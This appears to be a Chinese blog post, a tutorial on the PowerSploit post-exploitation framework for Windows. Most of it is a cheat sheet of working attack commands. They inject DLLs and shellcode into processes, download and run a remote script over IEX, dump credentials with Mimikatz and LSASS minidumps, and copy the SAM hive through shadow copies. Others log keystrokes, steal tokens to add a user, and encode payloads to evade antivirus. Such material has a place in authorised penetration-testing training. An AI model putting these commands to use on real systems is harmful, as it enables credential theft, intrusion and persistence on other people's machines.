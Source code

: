 ```yaml
---
title: "后渗透框架 PowerSploit"
date: 2019-07-25T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['powershell']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



PowerSploit 是基于 PowerShell 的后渗透框架. 在功能上分为杀软绕过, 命令执行, 特权提升, 权限维持, 信息收集等模块及一些辅助性脚本.

限于篇幅, 仅针对常用脚本进行说明.

<!--more-->

### PowerShell

PowerShell 是微软旨在替代 vbs 而开发的基于 .Net Framework 的命令行程序和脚本环境, 其强大的特性而被经常用于后渗透信息收集, 横向移动, 权限维持等.

Powershell 目前有 6 个版本, 其中 Windows 7/2008 R2 内置 Powershell 2.0, Windows 8/8.1/2012 R2 内置 PowerShell 3.0, Windows 10 1903 内置 PowerShell 5.0.

在 PowerShell 中, 一切皆为对象, 且命令一致采用 "动词-名词" 的格式, 如 `Set-Content`, `Get-Item`. PowerShell 的另一大好处为它拥有丰富的文档信息, 包括第三方脚本, 都可以采用 `Get-Help Command` 的方式查询帮助, 或加上 `-examples` 参数查看示例.

PowerShell 默认采用 Restricted 的执行策略, 即不允许所有脚本执行, 另有 AllSigned, RemoteSigned, Bypass, Unrestricted 策略, 使用 `Set-ExecutionPolicy` 更改策略, 其它绕过执行策略的方式在此不再赘述.

Powershell 因为其强大的特性, 如对 WinAPI 的支持, 大部分操作完全可以利用 PowerShell 来完成, 且为脚本语言, 无需编译, 达到了真正的无文件落地, 内存执行, 从而绕过了杀软的静态检测.

## PowerSploit

PowerSploit 是基于 PowerShell 的后渗透框架. 在功能上分为杀软绕过, 命令执行, 特权提升, 权限维持, 信息收集等模块及一些辅助性脚本.

限于篇幅, 仅针对常用脚本进行说明.

### CodeExecution

命令执行.

**Invoke-DllInjection**

向指定进程注入 DLL.

```
Invoke-DllInjection -ProcessID 1234 -Dll .\payload.dll
```

**Invoke-Shellcode**

向指定进程注入 Shellcode.

```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1/payload.ps1')
Invoke-Shellcode -ProcessID 1234 -Shellcode $buf
```

**Invoke-ReflectivePEInjection**

反射型 DLL/PE 注入. 可从网络加载 DLL/PE 文件.

```
Invoke-ReflectivePEInjection -PEUrl http://192.168.1.100/payload.exe -Force
```

### Privesc

特权提升.

**PowerUp**

检查可用的提权方法.

```
Invoke-AllChecks
```

### Exfiltration

针对本机的信息收集.

**Get-GPPPassword**

导出组策略中配置的用户名和密码 (GPP 漏洞).

```
GET-GPPPassword
```

**Get-Keystrokes**

键盘记录.

```
Get-Keystrokes -LogPath .\keylog.txt
```

**Get-TimedScreenshot**

定时截图.

```
Get-TimedScreenshoft -Path .\ -Interval 10
```

**Get-VaultCredential**

导出 Windows 凭据.

```
Get-VaultCredential
```

**Invoke-Mimikatz**

Mimikatz 的 PowerShell 版本.

```
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

**Invoke-NinjaCopy**

强行复制被进程占用的文件.

```
Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination .\SAM
```

**Invoke-TokenManipulation**

窃取凭据. 实际测试只能通过 CreateProcess 的方式以 SYSTEM 权限执行命令.

```
Invoke-TokenManipulation -UserName "NT AUTHORITY\SYSTEM" -CreateProcess cmd.exe -ProcessArgs "net user test test /add"
```

**Out-Minidump**

procdump 的 PowerShell 版本.

```
Get-Process lsass | Out-Minidump
```

**VolumeShadowCopyTools**

ShadowCopy 的 PowerShell 版本.

```
New-VolumeShadowCopy -Volume C:\
Get-VolumeShadowCopy
Mount VolumeShadowCopy -Path .\ -DevicePath \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
copy .\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM .\
Remove-VolumeShadowCopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

### Recon

针对内网的信息收集.

**Get-ComputerDetail**

获取日志信息, 如 RDP 日志, 事件日志.

```
Get-ComputerDetail
```

**Get-HttpStatus**

目录扫描.

```
Get-HttpStatus -Target 192.168.1.1 -Port 8080 -Path .\admin.txt
```

**Invoke-Portscan**

端口扫描.

```
Invoke-Portscan -Hosts 192.168.1.0/24 -T 4 -TopPorts 50
```

**Invoke-ReverseDnsLookup**

内网 IP 反查主机名.

```
Invoke-ReverseDnsLookup '192.168.1.0/24,10.0.0.1'
```

**PowerView**

域渗透信息收集框架 [PowerView](https://exp10it.cn/powerview-domain-recon.html).

### ScriptModification

脚本更改.

**Out-CompressdDLL**

将 DLL 编码为可在 PowerShell 中调用的格式.
```
Out-CompressdDLL -FilePath .\payload.dll
```

**Out-EncodedCommand**

将 PowerShell 命令或文件编码为 base64 格式.

```
Out-EncodedCommand -ScriptBlock {"whoami"}
Out-EncodedCommand -Path .\payload.ps1
```

**Remove-Comment**

去除脚本中的空格和注释.

```
Remove-Comment -Path .\payload.ps1
```